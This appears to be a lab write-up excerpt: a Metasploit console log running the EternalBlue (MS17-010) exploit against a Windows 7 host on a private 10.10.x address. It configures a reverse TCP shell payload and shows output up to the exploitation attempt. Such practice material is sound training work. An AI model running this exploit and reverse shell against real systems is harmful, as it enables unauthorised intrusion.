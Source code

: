```bash showLineNumbers
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.75.105     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                             Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Stan
                                             dard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 tar
                                             get machines.


Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.158.144    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.158.144:4444 
[*] 10.10.75.105:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.75.105:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.75.105:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.75.105:445 - The target is vulnerable.
[*] 10.10.75.105:445 - Connecting to target for exploitation.
[+] 10.10.75.105:445 - Connection established for exploitation.
[+] 10.10.75.105:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.75.105:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.75.105:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.75.105:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.75.105:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.75.105:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.75.105:445 - Trying exploit with 12 Groom Allocations.
```